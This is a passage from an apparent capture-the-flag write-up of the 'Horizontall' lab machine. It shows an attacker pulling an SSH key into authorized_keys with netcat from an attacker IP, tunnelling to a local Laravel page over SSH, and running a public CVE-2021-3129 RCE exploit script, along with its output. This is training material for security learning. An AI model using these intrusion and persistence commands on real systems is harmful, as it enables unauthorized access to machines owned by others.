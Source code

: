Lastly, we will obtain the SSH public key from the local machine and add it to the authorized keys on the SSH terminal. 

```
strapi@horizontall:~$ mkdir ~/.ssh
mkdir ~/.ssh
strapi@horizontall:~$ cd .ssh
cd .ssh
strapi@horizontall:~/.ssh$ nc -nv 10.10.16.7 6060 > authorized_keys
nc -nv 10.10.16.7 6060 > authorized_keys
Connection to 10.10.16.7 6060 port [tcp/*] succeeded!
```

Afterwards, we will execute the port-forwarding on our local machine. We should be able to realize that we will now be able to view the Laravel page on http://127.0.0.1:8000

```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ ssh -i ~/.ssh/id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb              3 ⚙
Last login: Sun Sep 19 05:14:43 2021 from 10.10.14.24
$ 
```

![Laravel page on localhost](../assets/horizontall/laravel_page.png)

After even more researching, we realize that this version of Laravel used is vulnerable to CVE-2021-312(More details are available [here](https://www.ambionics.io/blog/laravel-debug-rce)). Next, all we have to do is to obtain the exploit code from [here](https://github.com/zhzyker/CVE-2021-3129) and modify the gadget chains to read the root flag.

```
┌──(kali㉿kali)-[~/Desktop/CVE-2021-3129]
└─$ python3 exp.py http://127.0.0.1:8000/
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:


[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:


[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:


```